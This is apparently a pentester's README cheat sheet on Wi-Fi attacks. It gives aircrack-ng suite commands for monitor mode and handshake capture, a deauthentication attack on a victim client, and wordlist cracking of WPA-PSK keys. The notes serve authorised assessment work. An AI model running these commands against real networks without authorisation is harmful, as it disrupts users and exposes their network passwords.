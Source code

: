 # Wi-Fi Collection and Attack Techniques

This are techniques that I have found to work during WiFi assessments. This isn't an "end all, be all" list.</br>

* Identification/Discovery
* Collection
* Attack

# Hardware:
- key is having an Atheros chipset in the wireless adapter
- TP-Link TL-WN722N - has to be earlier than version 2
- Alfa AWUS051NH

# Configuration
* System setup
* Might need to kill Network Manager
```
/etc/init.d/network-manager status
```
```
/etc/init.d/network-manager stop
```
* Ensure hardware is connected
```
lsusb
```
* Check wireless status of network adapter
```
iwconfig
```
* If need to bring up the interface
```
ifconfig wlan0 up
```
* This is an optional step: can stay in Managed mode and scan to do light discovery
```
iwlist wlan0 scanning
```

# Monitor Mode
* This sets wlan0 into Monitor mode. This sets a new interface, typically, mon0 or a variation of ie. wlanmon0
```
airmon-ng start wlan0
```
* Watch aircrack-ng's output of errors. Might need to run:
```
airmon-ng check kill
```
* Monitor for traffic on Monitor interface (i.e. mon0)
```
airodump-ng mon0 
```
* Stopping Monitor Mode when needed
```
airmon-ng stop wlan0mon
```

# Capture traffic
* Interface will your monitor interface that was set above i.e. mon0
```
airodump-ng -c <Channel> --bssid <AP_MAC> -w <File_Prefix> <interface>
```

# WPA-PSK Attack
* Attacking WPA-PSK - Goal: acquire PSK (pre-shared key)
- Need to identify:
* Name of the wireless network (ESSID)
* MAC address of the AP (BSSID)
* Channel that the AP
* Victim MAC
* need to capture 4 way handshake
* Then crack - see below

# Deauth Attack
* In one terminal collect
``` 
airodump-ng -c <CHANNEL> --bssid  <AP_MAC> -w <FILE_PREFIX> <INTERFACE>
```
* In another termainl deauth
```
aireplay-ng --deauth 25 -a <AP_MAC> -c <VICTIM_MAC> <INTERFACE>
```

# Cracking
* Crack with John the Ripper
```
/usr/sbin/john --rules -w=/usr/share/wordlists/rockyou.txt --stdout | aircrack-ng -w - -e <essid> capture.cap
```
* Brute-Force to get the WPA Key (assumption is the packet capture contains the 4 way handshake)
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa_capture.pcap
```
* I've heard hashcat is more affective but I've have not tried this method.

# Wireshark Tips
* Don't forget to add key information to Wireshark
* From Menu options: Edit->Preferences->IEEE 802.11
